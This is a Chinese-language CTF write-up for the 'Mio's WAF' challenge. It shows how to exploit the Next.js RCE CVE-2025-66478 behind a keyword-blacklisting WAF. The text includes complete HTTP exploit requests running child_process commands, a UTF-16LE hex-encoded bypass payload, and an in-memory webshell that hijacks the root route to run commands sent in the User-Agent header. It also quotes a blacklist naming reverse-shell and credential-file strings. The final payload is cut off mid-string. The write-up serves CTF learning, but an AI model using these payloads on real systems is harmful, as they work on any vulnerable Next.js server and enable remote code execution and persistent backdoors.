





# [UniCTF] Mio's WAF 官方write-up

有幸参与了本次unictf的出题和担任了运维,

题目全部源码已公开

::github{repo="mio-qwq/Mio-s-WAF"}

[https://github.com/mio-qwq/Mio-s-WAF](https://github.com/mio-qwq/Mio-s-WAF)

这是一道有关于漏洞利用以及WAF绕过的题目

## 1.漏洞利用
本次要使用两个2025年新出的cve漏洞来进行,RCE,提权,等的常规操作

1. CVE-2025-66478 

这是2025年12月公开的next.js以及react的一个CVSS 评分满分(10.0分)的**极高危**漏洞

可以直接构造payload对被攻击服务器进行任意JavaScript代码执行,

2. CVE-2025-32463

这是linux的常用软件sudo的本地高危本地提权漏洞 CVSS 评分 9.3

一直到2025年6月才发布补丁,受影响版本的sudo仅需要该普通用户**可以使用sudo的-R选项**

就可以无密码无验证直接提权到root

## 2.WAF绕过
首先进入容器是一个很简单的JavaScript质询

<!-- 这是一张图片，ocr 内容为：CHECKING YOUR BROWSER BEFORE ACCESSING THE SITE. THIS PROCESS IS AUTOMATIC.YOUR BROWSER WILL REDIRECT TO YOUR REQUESTED CONTENT SHORTLY. VERIFY YOU ARE HUMAN VERIFICATION REQUIRED. DOES PRATECTION BY MIO'S WAF -->


很简单,只是对下发的两个质数的乘积做质因数分解,从而得到原来的那两个质数,

并写入cookie,作为本次得到的token对.每对token仅允许两次请求,

同时这里对/_next/static/chunks/的静态页面是做特殊处理了,

静态页面不计入请求数,不然页面会显示错误.然后为了防止外带和其他的,

WAF启动时将静态资源缓存到内存,当发现请求的资源在缓存时,不将请求转发到后端

直接从内存返回内容,如果请求的内容不在缓存,即使符合静态资源格式也会直接返回403

过了质询以后,进入题目,

<!-- 这是一张图片，ocr 内容为：ATTENTION IS ALL YOU NEED LIGHT MODE ATTENTION IS ALL YOU NEED 摘要(ABSTRACT) AIDAN N,GOMEZ* LUKASZ KASZ KAISER* LLLIA POLOSUKHIN* UION JONES* A ASHISH VASWAN￥NOAM SHAZEER* NIKI PARMAR* JAKOB USZKOREIT* 1.51元 (NTRODUCTION) GOOGLE BRAIN -GOUGLE RESEARCH 2.背景(BACKGROUND) 3.描甲基构(MODELARCHITECURE) PROUIDED AS PART OF NIP5 2017 32注意力机制(ATTENTION) 35 位天新假(FOSIFIONAL ENCODING) 摘要(ABSTRACT) 4.为什么选择自注意力 6. 结论(CONCLUSION) 主流B)于列%)(SUQUENES TRANSDUCTON), 日理于定码干定及的新), 日理常包含,个星系统和),日理常包含,个星系统和),日理放包含,个星级包含,个星级干定及的新), 个星系统称), 一个的码器,目前表现最好的模型涡常通过注意力机制(ATTENTION MECHANISM)连接铜码器扣解码器. 我们提出了一种新的海单网络架构--TANSFOMER,它房全基于注意力机制,完全部存了描环机著积操作,在两个机器标系 明,这些模型的翻译质示电优,自并行化能力更强,所需的训练时间是考减少. 在WAT 2014 英给胡洋位务中,我们的梅型达到于 281,28U,比现有的制保结果(包括英项程),高出2U以上,在WMT 2014英雄, 建立了一个新的单模型最先进水平(SOTA),BLEU得分为41.8,训练成本仅为文献) 蔬泽任务中,我们的类型在8个GPU上训练35天后,建立了一个新的单 中定建设塑的一小部分,聚数定表物,TENSTOUMS 在只购ULE分上也能很订地之化,第2名应足有限公司队的0队的 1.引言(INTRODUCTION) 循环神经网络(RNN),特别足长短期记忆网络(LSTM)和门挖街环单元(GRU),已被 ,已被确立为序列建接和装导问题(如语言建授和机器翻 泽)的 的是先许方法.自报以后,大量的努力一直敏力于不断征局站环语言接型和鲸码路,新码器架构的边界. 始环境型高效消息者入面输出序有的符写位面进行计算,通过将过放与计算时间出长对济.它们生成转感快应并到点,作为第一扶系.当过3 -->


题目是一个由next.js驱动的的页面,这个版本的next.js存在CVE-2025-66478漏洞,可以被特定的post请求造成RCE

常见payload如下

```http
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id').toString('utf8').trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

但是本次的WAF对POST请求有**及其严格**的黑名单

```python
BLACKLIST_KEYWORDS = [

    b"Next-Action",
    b"_response",
    b"_prefix",
    b"_chunks",
    b"_formData",
    b"resolved_model",          # 解析模型状态
    b"$1:__proto__:then",       # 原型链污染特征
    b"$1:constructor",          # 构造函数特征
    b"__proto__",               # 原型链
    b"prototype",               # 原型
    b"constructor",             # 构造器

    b"child_process",           # 子进程模块
    b"execSync",                # 同步命令执行
    b"spawn",                   # 进程生成
    b"exec",                    # 命令执行
    b"eval",                    # 代码执行
    b"process.mainModule",      # 进程主模块
    b"process.env",             # 环境变量
    b"process.exit",            # 进程退出
    b"process.kill",            # 进程终止
    b"process.binding",         # 进程绑定
    b"process.cwd",             # 当前工作目录
    b"process.cpuUsage",        # CPU 使用率
    b"process.memoryUsage",     # 内存使用率
    b"process.nextTick",        # 下一刻度
    b"process.stdout",          # 标准输出
    b"process.stderr",          # 标准错误
    b"process.stdin",           # 标准输入
    b"process.argv",            # 参数
    b"process.execPath",        # 执行路径
    b"import(",                 # 动态导入
    b"require(",                # 模块引入
    b"globalThis",              # 全局对象
    b"global.",                 # 全局对象访问
    b"root.",                   # Root 对象
    b"Function(",               # Function 构造
    b"Reflect",                 # Reflect API
    b"Proxy",                   # Proxy API
    b"Symbol",                  # Symbol API
    b"Promise",                 # Promise API
    b"Object.assign",           # 对象分配
    b"Object.create",           # 对象创建
    b"Object.defineProperty",   # 属性定义
    b"Object.entries",          # 对象条目
    b"Object.keys",             # 对象键
    b"Object.values",           # 对象值
    b"String.fromCharCode",     # 字符串构造
    b"String.fromCodePoint",    # 码点构造
    b"Buffer.from",             # Buffer 构造
    b"Buffer.alloc",            # Buffer 分配
    b"Buffer.concat",           # Buffer 连接
    b"node:http", b"node:https",
    b"node:fs", b"node:path",
    b"node:os", b"node:net",
    b"node:child_process",
    b"node:url", b"node:util",
    b"node:buffer", b"node:events",
    b"node:stream", b"node:crypto",
    b"node:cluster", b"node:console",
    b"node:dgram", b"node:dns",
    b"node:domain", b"node:module",
    b"node:perf_hooks", b"node:process",
    b"node:querystring", b"node:readline",
    b"node:repl", b"node:string_decoder",
    b"node:sys", b"node:timers",
    b"node:tls", b"node:tty",
    b"node:v8", b"node:vm",
    b"node:wasi", b"node:worker_threads",
    b"node:zlib",
    b"Server.prototype.emit",   # HTTP Server 原型链篡改
    b"res.end", b"res.write",   # 响应控制
    b"req.url", b"req.method",  # 请求控制
    b"req.headers",             # 请求头
    b"req.body",                # 请求体
    b"res.writeHead",           # 响应头写入
    b"res.setHeader",           # 设置响应头


    b"/bin/sh", b"/bin/bash", b"/bin/dash", b"/bin/zsh", b"/bin/csh", b"/bin/ksh",
    b"/usr/bin/sh", b"/usr/bin/bash",
    b"cmd.exe", b"powershell", b"pwsh",
    b"wget", b"curl", b"lynx",
    b"nc ", b"netcat", b"ncat", b"socat",
    b"whoami", b"id ", b"uname", b"hostname",
    b"cat ", b"less ", b"more ", b"head ", b"tail ", b"nl ", b"tac ",
    b"ls ", b"dir ", b"vdir",
    b"pwd",
    b"cp ", b"mv ", b"rm ", b"rmdir",
    b"chmod", b"chown", b"chgrp",
    b"touch", b"mkdir",
    b"grep", b"awk", b"sed", b"cut", b"paste",
    b"find", b"locate", b"whereis", b"which",
    b"sudo", b"su ", b"doas",
    b"apt-get", b"yum", b"apk", b"dpkg", b"rpm",
    b"ssh ", b"scp ", b"sftp",
    b"ping ", b"telnet", b"ftp",
    b"python", b"perl", b"ruby", b"gcc", b"g++", b"make", b"cmake",
    b"php", b"java", b"go ", b"rustc",
    b"tar ", b"zip ", b"unzip", b"gzip", b"gunzip", b"bzip2",
    b"base64", b"xxd", b"od ",
    b"/dev/tcp", b"/dev/udp",
    b"bash -i", b"sh -i",
    b"0>&1",
    b"1>&2",
    b"2>&1",
    b"/dev/null",
    b"| bash", b"| sh",


    b"/etc/passwd", b"/etc/shadow", b"/etc/hosts", b"/etc/issue",
    b"/flag", b"flag.txt",
    b"/root", b"/var/log", b"/var/www",
    b"/proc/self", b"/proc/version", b"/proc/cpuinfo",
    b".ssh/id_rsa", b".ssh/authorized_keys",
    b".bash_history", b".bashrc", b".profile",

]
```

几乎不可能绕过这个黑名单,

但是,这道题不是通过关键词规避来绕过的,应该使用 **编码绕过**

WAF的逻辑是,把POST请求体先Unicode解码一次,再进行黑名单检查

然后,如果通过检查,就把**解码后的内容**发给next.js应用

因为react的flight协议支持POST请求体的json的Unicode解码

这里可以双重编码绕过.

例如,我要发送

```json
{"cmd": "cat /flag"}
```

在flight协议看来

```json
{"cmd": "cat /flag"}
```

 和

```json
{"\u0063\u006d\u0064": "\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067"} 
```

是完全等价的

但是我们如果发送

```json
{"\u0063\u006d\u0064": "\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067"} 
```

还是无法绕过WAF,因为WAF会对我们发送的内容Unicode解码后检验,WAF还是可以检测到我们想发送的

解码后的值

但是,WAF有一个**最大的缺陷**:它会把Unicode解码后且通过黑名单检测的请求发送给next.js应用

换言之就是如果我把

```json
{"\u0063\u006d\u0064": "\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067"} 
```

再完整Unicode编码一次,编码成

```json
\u007b\u0022\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0034\u0022\u003a\u0020\u0022\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0032\u0066\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u0022\u007d\u0020
```

这样WAF走原来流程,把收到的请求先Unicode解码一次,得到

```json
{"\u0063\u006d\u0064": "\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067"} 
```

然后进行黑名单比对,发现解码后的内容未出现黑名单中字符串,

然后将**解码后内容**发送给next.js应用,next.js应用将会收到

```json
{"\u0063\u006d\u0064": "\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067"} 
```

等价于

```json
{"cmd": "cat /flag"}
```

这样,就完成了一次对WAF的绕过.

同时,**WAF仅仅会检查POST请求体Unicode解码一次后的结果**

这个时候要是可以有一种**不是**Unicode编码,**同时**又可以被后端正确解码的编码

就可以直接绕过WAF

同时,React并不负责解码http请求,Next.js才负责解码.

Next.js支持的编码主要依赖于Node.js中的一个内置类Buffer

[https://nodejs.org/api/buffer.html#buffers-and-character-encodings](https://nodejs.org/api/buffer.html#buffers-and-character-encodings)

支持 utf8, utf16le , latin1, base64, hex, ascii.  

还有Web Standard TextDecoder 

[https://developer.mozilla.org/en-US/docs/Web/API/Encoding_API/Encodings](https://developer.mozilla.org/en-US/docs/Web/API/Encoding_API/Encodings)

所以,**只要是非Unicode编码的常规编码绕过都是可行的** (这也是比赛时没有给WAF全部源码的原因)

这里演示UTF-16LE编码的绕过

构造payload

```http
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1\"}",
  "_response": {
    "_prefix": "var res=process.mainModule.require('child_process').execSync('id').toString('utf8').trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest: `NEXT_REDIRECT;push;/login?a=${res};307;`});",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

注意把我们payload的第0字段的字段头部下面加上

```plain
Content-Type: text/plain; charset=utf16le
```

然后复制payload的post表单部分的第0字段内容并转码

<!-- 这是一张图片，ocr 内容为：字符编码/解码 "THEN:"$1: PROTO :THEN", "STATUS":"RESOLVED_MODEL", "REASON":-1, "VALUE":"Q"THENW:11*$B1\? "_RESPONSE: A$(RES/;307;1): 434 字符编码: 分隔符:无 格式: 交换 编码 解码 十六进制 UTF-16LE 清空 INGLINGLINGLITION  UNDITION  ING ING INITION  ING INITION  INITION  INITION INITING INITION INITININI LLY ING ING ING INGLINGLINGLINGLITIONLLINGLINGLINGLINGLINGLINGLINGLINGLINGLINGLINIINGLINITIONLLING IN 1736 编码后字节数:868 -->


最终payload,**(使用了yakit的Fuzztag {{hexd()}} )**

```http
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"
Content-Type: text/plain; charset=utf16le

{{hexd(7B000A002000200022007400680065006E0022003A0020002200240031003A005F005F00700072006F0074006F005F005F003A007400680065006E0022002C000A0020002000220073007400610074007500730022003A00200022007200650073006F006C007600650064005F006D006F00640065006C0022002C000A0020002000220072006500610073006F006E0022003A0020002D0031002C000A00200020002200760061006C007500650022003A00200022007B005C0022007400680065006E005C0022003A005C0022002400420031005C0022007D0022002C000A002000200022005F0072006500730070006F006E007300650022003A0020007B000A00200020002000200022005F0070007200650066006900780022003A002000220076006100720020007200650073003D00700072006F0063006500730073002E006D00610069006E004D006F00640075006C0065002E007200650071007500690072006500280027006300680069006C0064005F00700072006F006300650073007300270029002E006500780065006300530079006E0063002800270069006400270029002E0074006F0053007400720069006E006700280027007500740066003800270029002E007400720069006D00280029003B003B007400680072006F00770020004F0062006A006500630074002E00610073007300690067006E0028006E006500770020004500720072006F007200280027004E004500580054005F0052004500440049005200450043005400270029002C007B006400690067006500730074003A00200060004E004500580054005F00520045004400490052004500430054003B0070007500730068003B002F006C006F00670069006E003F0061003D0024007B007200650073007D003B003300300037003B0060007D0029003B0022002C000A00200020002000200022005F006300680075006E006B00730022003A002000220024005100320022002C000A00200020002000200022005F0066006F0072006D00440061007400610022003A0020007B000A00200020002000200020002000220067006500740022003A0020002200240031003A0063006F006E007300740072007500630074006F0072003A0063006F006E007300740072007500630074006F00720022000A0020002000200020007D000A00200020007D000A007D00)}}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

(发送给任意受CVE-2025-66478影响的Next.js应用,发现该payload可以被正确解析并运行)

**(注: 该截图并非本题目!!!)**

<!-- 这是一张图片，ocr 内容为：火 [DEFAUL]本地模式 白导入资源 自记事本 字典管理 D CODEC 安全工具 CODEC GOTSNQ 20 18 19 9151 21 22 14 11 12 13 10 小生成YAML 提板 R 发送请求ALT+ HEX HITP/L1-303-50E-0LHEP 园 X-ACTION-REDIRECTI-/1NGIN2A-UID-8(ROOT)-GID-A(R(ROOT)-GROUPS-A(RNOT) CESTANTYALI NALTIPART/FARW DATE; BOUNDARY".....NIOQUQ CONTEHT-TYPT:-TERTARTEWTPANMIS. BAB-:PL'15ENBEE-SFTXEN'X 00 X-MEXTJS-HTAL-REQUEST-ID:-QUQ CANTANT-LENGTH AIRTO ; 565 CONTENT-DISPESITION:-FORN-DETAL UNNER"GR "SEGWENTWLEDLODE"] 12 13 14:11"(GROJECTLENODE ANDELESTUISTY 1900 15 P)./.PWN/ATIC/ IS "VIMGNORIBOUNDERY" HASSERIPT),('/MEXT/EXTIC/ 18 1:[L 21 25 ....WIOQPG LYBARIAGARAMALIANGARIAMIONGARAMARIANIAGIANIAGIANIAGARA 25 U 77 基本物内管 7:22PM OASZL 中拼专心 1/01/2026 -->


**(注: 该截图并非本题目!!!)**

**仅为对无WAF的受CVE-2025-66478影响的Next.js应用的UTF-16LE编码解析的可行性示例**

但是,WAF会截断对任何POST请求的响应,并返回403

(就不会有以上截图的那种回显了)

即使RCE了,也不会有回显,但是如果next.js应用返回的状态码是500的话WAF会**仅转发这个500状态码**

这里就是原预期,选手进行布尔盲注来获取flag的内容

**但是**还有一种解法,就是打内存马,这里疏忽了,因为对其他路由进行了路由锁定,禁止访问除根目录及缓存的静态资源

以外的其他任何路由(请求都不会转发的WAF会直接截断)但是WAF对GET根目录返回的响应没有做检查,

就导致可以用内存马劫持根目录来回显flag,并且,即使WAF对请求进行了严格的流量清洗

甚至对转发的http请求头都做了限制

```python
allowed_headers = [
    'Host',
    'User-Agent',
    'Accept',
    'Accept-Language',
    'Accept-Encoding',
    'Connection',
    'Cookie',
    'Upgrade-Insecure-Requests',
    'Cache-Control',
    'X-HTTP-Method-Override',
    'X-Forwarded-For',
    'Content-Type',
    'Content-Length',
    'Next-Action',
    'Next-Router-State-Tree',
    'Next-Url',
    'X-Nextjs-Request-Id',
    'X-Nextjs-Html-Request-Id'
]

```

但是我们仍然可以在以上允许的头(比如useragent)里面塞命令,

制造一个**劫持根目录**作为**回显**,并且**接受useragent参数**做为命令**执行**的内存马

例如

```http
POST / HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1\"}",
  "_response": {
    "_prefix": "(async()=>{const h=await import('node:http'),c=await import('node:child_process');const o=h.Server.prototype.emit;h.Server.prototype.emit=async function(e,...a){if(e==='request'){const[r,s]=a;if(r.url==='/'||r.url.startsWith('/?')){try{const cmd=r.headers['user-agent']||'id';const out=c.execSync(cmd,{encoding:'utf8',timeout:5000});s.writeHead(200,{'Content-Type':'text/plain','X-MemShell':'active'});s.end(out);}catch(x){s.writeHead(500);s.end(x.message);}return true;}}return o.apply(this,arguments);};})();",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}
------mioqwq
Content-Disposition: form-data; name="1"

"$@0"
------mioqwq
Content-Disposition: form-data; name="2"

[]
------mioqwq--

```

并给出UTF-16LE编码绕过后可行的payload

```http
POST / HTTP/1.1
Host: nc1.ctfplus.cn:25656
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Content-Type: multipart/form-data; boundary=----mioqwq
X-Nextjs-Request-Id: qwq
X-Nextjs-Html-Request-Id: qwq
Next-Action: x
Cookie: waf_num_token1=10093; waf_num_token2=10453
Content-Length: 565

------mioqwq
Content-Disposition: form-data; name="0"
Content-Type: text/plain; charset=utf16le

{{hexd(7B000A002000200022007400680065006E0022003A0020002200240031003A005F005F00700072006F0074006F005F005F003A007400680065006E0022002C000A0020002000220073007400610074007500730022003A00200022007200650073006F006C007600650064005F006D006F00640065006C0022002C000A0020002000220072006500610073006F006E0022003A0020002D0031002C000A00200020002200760061006C007500650022003A00200022007B005C0022007400680065006E005C0022003A005C0022002400420031005C0022007D0022002C000A002000200022005F0072006500730070006F006E007300650022003A0020007B000A00200020002000200022005F0070007200650066006900780022003A002000220028006100730079006E006300280029003D003E007B0063006F006E0073007400200068003D0061007700610069007400200069006D0070006F0072007400280027006E006F00640065003A006800740074007000270029002C0063003D0061007700610069007400200069006D0070006F0072007400280027006E006F00640065003A006300680069006C0064005F00700072006F006300650073007300270029003B0063006F006E007300740020006F003D0068002E005300650072007600650072002E00700072006F0074006F0074007900700065002E0065006D00690074003B0068002E005300650072007600650072002E00700072006F0074006F0074007900700065002E0065006D00690074003D006100730079006E0063002000660075006E006300740069006F006E00280065002C002E002E002E00610029007B0069006600280065003D003D003D0027007200650071007500650073007400270029007B0063006F006E00730074005B0072002C0073005D003D0061003B0069006600280072002E00750072006C003D003D003D0027002F0027007C007C0072002E00750072006C002E007300740061007200740073005700690074006800280027002F003F002700290029007B007400720079007B0063006F006E0073007400200063006D0064003D0072002E0068006500610064006500720073005B00270075007300650072002D006100670065006E00740027005D007C007C0027006900640027003B0063006F006E007300740020006F00750074003D0063002E006500780065006300530079006E006300280063006D0064002C007B0065006E0063006F00640069006E0067003A002700750074006600380027002C00740069006D0065006F00750074003A0035003000300030007D0029003B0073002E0077007200690074006500480065006100640028003200300030002C007B00270043006F006E00740065006E0074002D00540079007000650027003A00270074006500780074002F0070006C00610069006E0027002C00270058002D004D0065006D005300680065006C006C0027003A00270061006300740069007600650027007D0029003B0073002E0065006E00640028006F007500740029003B007D00630061007400630068002800780029007B0073002E00770072006900740065004800650061006400280035003000300029003B0073002E0065006E006400280078002E006D0065007300730061006700650029003B007D00720065007400750072006E00200074007200750065003B007D007D00720065007400750072006E0020006F002E006100700070006C007900280074006800690073002C0061007200670075006D0065006E007400730029003B007D003B007D002900280029003B0022002C000A00200020002000200022005F006300680075006E006B00730022003A002000220024005100320022002C000A00200020002000200022005F0066006F0072006D00440061007400610022003A0020007B000A0020002000200020002000200022